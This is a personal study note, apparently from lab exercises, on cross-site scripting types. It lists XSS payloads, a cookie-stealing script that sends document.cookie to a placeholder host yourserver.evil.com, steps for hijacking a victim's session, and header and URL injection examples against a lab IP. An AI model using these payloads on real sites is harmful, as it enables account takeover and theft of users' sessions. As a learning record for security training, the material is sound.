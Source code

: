 - Stored / Persistent (Server-Side)
    - Runs when the Server loads the Side
    - if User Input is forwarded unfiltered to database
    - if User Input can be executes as javascript (e.g. "Add a comment" / Blog Posts)
-   Reflected (Client Side)
    - Target includes the Payload from Attacker in Response. Target has to open a specific URL to execute the HackerSoftware
-   DOM-Based (Special)
    -   Document Object Model - erlaubt das Ändern der HTML Dokument Struktur
    - Document Object Model - allows to change the HTML Document Structur
    - mostly uses the `<script></script>` Tag

XSS Payloads Examples:

```
<script>alert(“Hello World”)</script>

<script>alert(window.location.hostname)</script>

<script>document.querySelector('#thm-title').textContent = "I am a hacker"</script>

document.write(my Stuff, e.g. a Link)

XSS Keylogger http://www.xss-payloads.com/payloads/scripts/simplekeylogger.js.html

Port scanning http://www.xss-payloads.com/payloads/scripts/portscanapi.js.html
```


Cookies Logging and using Example:

```
We have made things easy for you. Requesting /log/hello will log hello for you.

The logs page will show you everything logged to /log/any_text URL.

This means, if you write a malicious script to steal someones cookie, you can have it logged for you to take over their account

Posting <script>document.location='/log/'+document.cookie</script> will log everyones cookies. Make sure its not your cookie when you're visiting the logs page as you will have also visited this page again.. You can check this by looking at your cookies in the Developer Tools console and executing document.cookie.

Once your victim (in this case you hope its Jack), to visit this page, it will log his cookie for you to steal! You can also use other HTML tags to make requests, including the img tag:

<img src="https://yourserver.evil.com/collect.gif?cookie=' + document.cookie + '" />

Now you have Jacks cookie, you can update your own by replacing its value. You can update your own cookies value in your Developers Tools. (developer Tools - Application - Cookies - connect.sid = value

Once you've replaced your cookie with Jacks, refresh your page and see who you are logged in as!
```




## DOM Based

XFS - Cross Frame Scripting, e.g. in Search Bar

`<iframe src="javascript:alert('xss')">`



## Persistent

-  In [[Burp Suite]]: Intercept On
- On Webseite: Log Out
- In Burp Suite: Request Headers - add
    - Name: True-Client-IP (similar to X-Forwarded-For header) (ist ähnlich zu X-Forwarded-For header, if header is not cleaned)
    -   Value: `<iframe src="javascript:alert('xss')">`




## Reflected

e.g. there is `?id=` in the URL, you can change the ID to Code and Reload the site

Example:

```
http://10.10.207.191/#/track-result?id=5267-9d92cb802200b213
http://10.10.207.191/#/track-result?id=<iframe src="javascript:alert(`xss`)">
```